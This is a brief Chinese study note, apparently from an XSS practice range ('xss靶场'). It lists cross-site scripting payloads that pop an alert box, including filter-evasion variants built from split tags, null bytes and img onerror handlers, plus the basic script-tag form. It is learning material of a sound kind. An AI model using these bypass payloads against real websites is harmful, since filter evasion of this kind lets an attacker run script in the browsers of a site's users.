 

## 还有可能的弹窗方式

```
<script/haha>
  alert(1)
</script>

<script
>
  alert(1)
</script>

<scr\x00ipt>
  alert(1)
</scr\x00ipt>

<i[%00]mg onerror="alert(1)" src="" />

<img/onerror=alert(1) src="" />
```




# xss靶场

xss1.njhack.xyz



## 0x00——基本形式

```
<script>alert(1)</script>
```
